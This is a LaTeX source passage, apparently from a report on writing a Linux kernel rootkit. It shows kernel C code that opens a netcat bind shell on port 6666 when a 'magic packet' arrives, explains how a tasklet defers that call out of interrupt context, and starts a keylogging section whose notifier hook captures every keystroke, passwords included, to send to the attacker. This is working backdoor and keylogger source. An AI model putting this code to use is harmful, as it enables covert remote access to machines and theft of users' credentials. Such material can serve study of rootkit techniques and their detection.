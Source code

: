 \documentclass[12pt]{article}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\begin{lstlisting}[caption=Span netcat in userland., label=backdoor]
void shell_tasklet_fn(unsigned long data){
		static char *envp[] = {
	        "HOME=/",
	        "TERM=linux",
	        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	char *argv3[] = {"/bin/sh", "-c", "/bin/netcat -l -p 6666 -e /bin/sh &", NULL};
	call_usermodehelper(argv3[0], argv3, envp, UMH_NO_WAIT);

}
\end{lstlisting}

The hard part was not the creation of the process itself but doing it inside of an interrupt handler (reception of magic packet). Many functions can not be called safely (long running functions and so on) inside the context of an interrupt. Because of that we used the tasklet API to defer the execution of \shellcmdinline{call\_usermodehelper} to a save point in time into the kernel context. Listing \ref{tasklet} shows the usage of the tasklet API to start the \shellcmdinline{shell\_tasklet\_fn} in a deferred and safe manner.

 \begin{lstlisting}[caption=Tasklet API., label=tasklet]
DECLARE_TASKLET(shell_tasklet, shell_tasklet_fn, 0);

void start_remote_shell(void){
	tasklet_schedule( &shell_tasklet );
}
 \end{lstlisting}



\subsection{Keylogging}
This section deals with keylogging in the linux kernel. Keylogging describes the process of intercepting all input-keys, this includes also all passwords, usernames or bank account informations assuming the user entered this information, from a keyboard.  Our rootkit intercepts all keys and sends them to the attacker. To make it harder to detect the rootkit with the keylogging function it is possible to activate and deactivate it with magic packets, see \ref{sec:magicpackage}.  \newline
The linux kernel already provides a method to intercept all keys, to use this implementation it is necessary to include the keyboard header and define a new \lstinline{struct notifier_block keyboard_notifier}, see Listing \ref{includeKey}.

\begin{lstlisting}[caption=Keyboard header., label=includeKey]
#include <linux/keyboard.h>

static struct notifier_block keyboard_notifier = {
  .notifier_call = keyboard_hook
};

int keyboard_hook(struct notifier_block *, unsigned long code, void *);
\end{lstlisting}
\end{document}
